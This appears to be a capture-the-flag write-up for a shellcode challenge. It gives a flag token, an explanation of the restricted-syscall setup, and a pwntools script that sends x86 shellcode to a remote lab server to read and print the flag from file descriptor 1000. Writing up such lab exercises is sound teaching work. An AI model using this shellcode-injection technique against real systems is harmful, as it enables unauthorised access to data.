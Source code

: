 simple
===========================
Flag: FLAG{eyJhbGciOiJIUzI1NiJ9.eyJjaGFsIjoid2FyMy1zaW1wbGUiLCJpcCI6IjEyMy4yNDMuNi4xMzYiLCJzZXNzaW9uIjoiYTVhNTc1M2YtYjBjNS00MDNjLTk4N2UtNTliZDhiZTU2YzVkIn0.GgcrHSdNdD1gJyeZdWIQwOWagA3h6d1VsLBxFb-CuUA}

General overview of problems faced
-------------------------------------
When running the binary, it states that it is basically the same as the lab exercise, except I can only call the syscalls read and write. This means that the program simply asks for shellcode as input, and then will execute it.

It then says a file containing the flag is opened with fd 1000. Hence, I am going to want to run shellcode which reads from fd 1000, and the prints the result to stdout.

Script/Command used
------------------
```
p = remote("plsdonthaq.me", 3001)

# This shellcode is split into a call to sys_read and a call to sys_write.

# For sys_read, we first subtract 500 from the value stored in the stack pointer,
# which creates a buffer of 500 bytes to write into at the top of the stack.

# Then, we want to move the arguments for this function into the appropriate registers.
# Using the syscall reference table, we move the fd 1000 into ebx, the address of
# the buffer into ecx, and the number of bytes to read into edx. Finally, we move
# the value for sys_read into eax and call it using int 0x80.

# For sys_write, we simply need to move the arguments into the registers. Hence, we
# move the fd 1 (for stdout) into ebx, the address of the buffer into ecx, and the
# number of bytes to read into edx. We load this value from eax because sys_read
# returns the number of bytes read into eax, so we only want to write that many bytes.
# Finally we move the value for sys_write into eax and call it using int 0x80.
shellcode = asm("""
sub esp, 500
mov ebx, 1000
lea ecx, [esp]
mov edx, 500
mov eax, 0x03
int 0x80

mov ebx, 1
lea ecx, [esp]
mov edx, eax
mov eax, 0x04
int 0x80
""")

p.sendline(shellcode)

p.interactive()
```
